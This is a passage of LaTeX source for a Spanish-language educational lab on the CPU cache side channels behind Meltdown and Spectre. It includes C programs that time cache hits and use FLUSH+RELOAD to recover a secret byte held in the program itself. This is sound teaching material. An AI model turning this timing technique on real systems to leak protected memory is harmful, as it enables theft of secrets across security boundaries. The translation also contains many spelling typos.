%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Compilación del Código}
\label{sidechannel:sec:compilation}

Para la mayoría de nuestras tareas, necesitará agregar la opción \texttt{-march=native} a la hora de copilar el código con \texttt{gcc}. La opción \texttt{march} le indica al compilador que debe activar todas el conjunto de  instrucciones soportadas por la máquina en donde se va a ejecutar este código.
Por ejemplo, compilaremos \texttt{myprog.c} usando el siguiente comando:

\begin{lstlisting}
$ gcc -march=native -o myprog myprog.c
\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 1 y 2: Ataque de Side Channel usando la cache del CPU}

Los ataques Meltdown y Spectre usan la cache del CPU como side channel (canal encubierto) para robar información que se supone protegida. La técnica usada en este ataque de side channel se llama FLUSH+RELOAD~\cite{Yarom2014}. 
Primero estudiaremos esta técnica. El código desarrollado en las tareas siguientess serán usados como base para futuras tareas.

La cache del CPU es una cache a nivel hardware usada por la CPU de una computadora para reducir el tiempo promedio de acceso a los datos en la memoria principal. Aceder a los datos en la cache del CPU es mucho más rápido que hacerlo en la memoria principal. Cuando los datos son obtenidos de la memoria principal por lo general son cacheados por la CPU, por lo que si se esos datos se usan nuevamente el tiempo de acceso será mucho más rápido. Ademas cuando la CPU necesita acceder a cierta porción de datos, primero busca en su cache. Si los datos están ahí (cache hit) serán obtenidos directtamente de esa cache de otra forma la CPU irá a la memoria principal para obtenerlos. El tiempo que se usa en la última operación es significativamente más alto. La mayoría de los CPUs modernos poseen estas caches.


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/cachehitmiss.pdf}
\caption{Cache hit and miss}
\label{sidechannel:fig:cachehitmiss}
\end{figure}


\subsection{Tarea 1: Leyendo de la Cache vs Memoria }

La memoria cache es usada por los procesadores para acelerar el tiempo de acceso a los datos. Las memorias cachess son más rapidas en comparación a la memoria principal.
Veamos el tiempo diferencial. En el siguiente código (\texttt{CacheTime.c}), tenemos un arreglo de tamaño \texttt{10*4096}. Primero accedemos a dos de sus elementos \texttt{array[3*4096]} y \texttt{array[7*4096]}. Lás páginas que contienen estos dos elementos serán cacheadas. Luego procederemos a leer los elementos desde \texttt{array[0*4096]} hasta \texttt{array[9*4096]} y medireos el tiempo de lectura usado en la memoria.
La Figura \ref{sidechannel:fig:cachehitmiss} ilustra la diferencia.
En la Línea \ding{192} del código usado se realiza la lectura del contador del timestamp del CPU (TSC) antes de que realizar la lectura en memoria, mientras que en la Línea \ding{193} se lee el contador después de realizar la lectura en memoria. La diferencia de tiempo (expresada en el números de ciclos de CPU), representa el tiempo de lectura en memoria.
Cabe destacar que el proceso de cacheo se hace a nivel bloque, no a nivel de byte. El tamaño habitual de un bloque de cache son 64 bytes. Hemos usado \texttt{array[k*4096]}, para que los dos elementos que son cacheados no estén ubicados en el mismo bloque de la cache. 


\begin{lstlisting}[caption=\texttt{CacheTime.c}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                  (*@\ding{192}@*)
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;          (*@\ding{193}@*)
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
\end{lstlisting}

Por favor compile el siguiente código usando \texttt{gcc -march=native
CacheTime.c} y ejecútelo. ¿Es más rápido acceder a \texttt{array[3*4096]} y \texttt{array[7*4096]} que acceder a otros elementos? Debe ejecutar el programa al menos 10 veces y describir sus observaciones. Dado este experimento debe de encontrar un valor umbral que pueda ser usado para distinguir entre estos dos tipos de acceso en memoria: acceder a los datos desde la cache versus acceder a los datos desde la memoria principal. Este umbral es importante para el resto de las tareas en este laboratorio.

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 2: Usando la Cache como Side Channel}


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/flushreload.pdf}
\caption{Diagram depicting the Side Channel Attack}
\label{sidechannel:fig:flushreload}
\end{figure}

El objetivo de esta tarea es usar el side channel para extraer un valor secreto usado por la función víctima. Asuma que existe una función víctima que usa un valoor secret como índice para cargar algunos valores de un arreglo. También asuma que ese valor secreto no puede ser accedido desde afuera. Nuestro objetivo es usar side channels para obtener este valor secreto. Esta técnica llamada FLUSH+RELOAD~\cite{Yarom2014}. Figura \ref{sidechannel:fig:flushreload} ilustra esta técnica que se conforma en tres pasos:

\begin{enumerate}[noitemsep]

\item Hace un FLUSH de todo el arreglo en la memoria cache para asegurarse que el arreglo no este cacheado.

\item Invoca la función víctima, que accede a uno de los elementos del arreglo basado en el valor del secreto. Esta acción provoca que este elemento sea cacheado.

\item Hace un RELOAD de todo el arreglo y mide el tiempo que toma en hacer el reload por cada uno de los elementos que contiene el arreglo. Si el tiempo de carga de un elemento específico del arreglo es más rápido, lo más probable es que ese elemento este dentro de la ache.
Este elemento debe ser el que usa la función víctima. 
Debemos de averiguar cual es su valor secreto.
\end{enumerate}

El siguiente programa usa la técnica FLUSH+RELOAD para encontrar un valor secreto de 1 byte ubicado en la variable \texttt{secret}. Dado que existen 256 valores posibles para un secreto de 1 byte, necesitamos mapear cada valor en un elemento diferente dentro del arreglo. La forma naive de hacer es definir un arreglo de 256 ellementos (es decir \texttt{array[256]}). Sin embargo, esto no va a funcionar. El cacheo se hace a nivel blooque, no a nivel bbyte. Si se accede a \texttt{array[k]} un blooque de memoria que contiene este elemento será cacheado junto con los elementos adyacentes del arreglo \texttt{array[k]}, dificultando la inferencia de cual es el valor secreto.
Para solucionar este problema, hemos creado un arreglo de \texttt{256*4096} bytes, dado que \texttt{4096} es mucho mayor en tamaño que el bloque default de la cache (64 bytes), de esta forma nos aseguramos que no existan elementos adyacentes en el mismo bloque por lo que \texttt{array[i*4096]} y \texttt{array[j*4096]} estarán en diferentes bloques.

Dado que  \texttt{array[0*4096]} puede caer en el mismo bloque de cache que las variables de memoria adyacentes, puede ser accidentalmente cacheado durante el proceso de cacheo de esas variabbles. Por otro lado debemos evitar usar  \texttt{array[0*4096]} en el método de FLUSH+RELOAD (para otro índice \texttt{k}, \texttt{array[k*4096]} no hay problema).
Para hacer esto consistente dentro del programa, usamos \texttt{array[k*4096 + DELTA]} para todos los valores \texttt{k} donde \texttt{DELTA} es una constante ya definida con el valor \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Por favoor compile el programa usando \texttt{gcc} ejecútelo (Vea la Sección \ref{sidechannel:sec:compilation} para las instrucciones de compilación).
Debe de nootar que esta técnica no es 100\% precisas y puede que los resultados que observa no sean los esperados en muchas instancias de su ejecución.
Ejecute el programa al menos 20 veces y cuenta cuantas veces obtiene el valor secreto de forma correcta. Puede ajustar el valor umbral \texttt{CACHE\_HIT\_THRESHOLD} al usado en la Tarea 1 (en este código se usa 80).

